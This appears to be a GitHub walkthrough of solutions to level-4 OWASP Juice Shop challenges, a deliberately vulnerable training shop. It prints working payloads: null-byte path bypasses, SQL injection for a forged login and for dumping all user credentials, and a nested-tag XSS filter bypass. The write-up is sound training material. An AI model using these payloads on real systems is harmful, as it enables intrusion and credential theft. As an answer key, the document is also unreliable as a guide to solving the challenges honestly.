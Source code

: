# Level 4

## Christmas Special (Injection)
_Order the Christmas special offer of 2014._

You can find "Christmas special offer of 2014" in [application-configuration.json](misc/application-configuration.json).
By comparing with the list of products (`GET /api/Product`), you can determine that "Christmas special offer of 2014"
must have product ID `10`.

Knowing the ID, just add it to the cart:
```
POST /api/BasketItems/

{"ProductId":10,"BasketId":"1","quantity":1}
```

Finally, finish the order in your browser.

## Easter Egg (Broken Access Control)
_Find the hidden easter egg._

The egg is at `/ftp/eastere.gg`. However, it's protected by a file extension filter:
```
403 Error: Only .md and .pdf files are allowed!
```

The trick is exploiting [CWE-626: Null Byte Interaction Error (Poison Null Byte)](https://cwe.mitre.org/data/definitions/626.html)
> The poison null byte is frequently useful in path traversal attacks by terminating hard-coded extensions that are added to a filename.

Call `GET /ftp/eastere.gg%2500.md` (`%25` is URL encoded `%`):
```
"Congratulations, you found the easter egg!"
- The incredibly funny developers

...

...

...

Oh' wait, this isn't an easter egg at all! It's just a boring text file! The real easter egg can be found here:

L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==

Good luck, egg hunter!
```

## Ephemeral Accountant (Injection)
_Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user._

This is about SQL injection into _Login form_. If you already done the [Database Schema](level3.md#database-schema-injection)
challenge, you know the number of columns and data types of `users` table.
 
```
xxx' UNION SELECT 999, '', 'acc0unt4nt@juice-sh.op', 'password', 'accounting', '', '0.0.0.0', '/assets/public/images/uploads/default.svg', '', 1, '2020-08-15T18:22:49.161Z', '2020-08-15T18:22:49.161Z', null; --
```

The role must be the `accounting`!

## Forgotten Developer Backup (Sensitive Data Exposure)
_Access a developer's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md` and obtain [package.json.bak](misc/package.json.bak).

## Forgotten Sales Backup (Sensitive Data Exposure)
_Access a salesman's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md`
```
n<MibgC7sn
mNYS#gC7sn
o*IVigC7sn
k#pDlgC7sn
o*I]pgC7sn
n(XRvgC7sn
n(XLtgC7sn
k#*AfgC7sn
q:<IqgC7sn
pEw8ogC7sn
pes[BgC7sn
l}6D$gC7ss
```

## Leaked Unsafe Product (Sensitive Data Exposure)
_Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous._

Similar to the challenge [Christmas Special](#christmas-special-injection), we can easily identify the product in 
[application-configuration.json](misc/application-configuration.json):
```json
{
    "name": "Rippertuer Special Juice",
    "description": "Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br/><span style=\"color:red;\">This item has been made unavailable because of lack of safety standards.</span>",
    "price": 16.99,
    "image": "undefined.jpg",
    "keywordsForPastebinDataLeakChallenge": [
      "hueteroneel",
      "eurogium edule"
    ]
}
```

Googling for the rarest fruits is not the solution, they are all safe.
So either google for `Rippertuer Special Juice` and find this paste https://pastebin.com/90dUgd7s
or get the answer from `keywordsForPastebinDataLeakChallenge` (guess this is not intentional though).

Submit `Hueteroneel and Eurogium Edule` into _Customer Feedback_ form.

## Nested Easter Egg (Cryptographic Issues)
_Apply some advanced cryptanalysis to find the real easter egg._

This challenge follows [Easter Egg](#easter-egg-broken-access-control). The goal is to decrypt:
```
L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==
```

This is rather easy.
 
1) Decode `Base64` (https://www.base64decode.org/):
```
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt
```

2) Apply [ROT13](https://en.wikipedia.org/wiki/ROT13) cipher (https://rot13.com/):
```
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

Call `GET /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`

## Reset Bender's Password (Broken Authentication)
_Reset Bender's password via the Forgot Password mechanism with the original answer to his security question._

Bender's security question is:
> Company you first work for as an adult?

[Bender](https://en.wikipedia.org/wiki/Bender_(Futurama)) is a well-known character from the
TV show [Futurama](https://en.wikipedia.org/wiki/Futurama).

The [wiki](https://en.wikipedia.org/wiki/Bender_(Futurama)) lists his occupations as:
- Suicide booth construction worker (formerly)
- Planet Express Bender / Chef

Read more about [suicide booths](https://futurama.fandom.com/wiki/Suicide_Booth):
> Suicide booths were invented somewhere between 2006 and 2008. Since 2008, America's most important brand of suicide booths is Stop'n'Drop. 

The correct answer is `Stop'n'Drop`

## Reset Uvogin's Password (Sensitive Data Exposure)
_Reset Uvogin's password via the Forgot Password mechanism with the original answer to his security question._

Uvogin's security question is:
> Your favorite movie?

This one is rather hard so let's start with some hints:
> People often reuse aliases online. You might be able to find something by looking online for Uvogin's name or slight variations of it based on his unique writing habits

"Unique writing habits" points to [leetspeak](https://en.wikipedia.org/wiki/Leet).
See that all comments from `Uvogin` are like `y0ur f1r3wall needs m0r3 musc13` or `0 st4rs f0r 7h3 h0rr1bl3 s3cur17y`.

Googling for `uv0gin` quickly reveals his [Twitter account](https://twitter.com/uv0gin).
Unfortunately, nothing useful is here.

The catch is that the important tweet was deleted (_I had no idea and had to look into solutions_).
However, you can recover it with a service such as [Wayback Machine](https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin):

![](images/uv0gin-movie.png)

The correct answer is `Silence of the Lambs`

## Server-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a server-side security mechanism._

I tried to use this payload in the _Customer Feedback_ form, but the payload was deleted:
```
Hello <iframe src="javascript:alert(`xss`)">
```

Resulting into:
```
Hello
```

Hopefully, it's just a simple string replacement. So let's try:
```
<<iframe src="javascript:alert(`xss`)">iframe src="javascript:alert(`xss`)">
```

Bingo, the nested ```<iframe src="javascript:alert(`xss`)">``` string is deleted resulting into the original payload!

## User Credentials (Injection)
_Retrieve a list of all user credentials via SQL Injection._

This challenge follows the [Database Schema](level3.md#database-schema-injection) challenge:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+username,email,password,role,deluxeToken,lastLoginIp,profileImage,totpSecret,isActive+FROM+Users--
```

The result is in [misc/users.json](misc/users.json).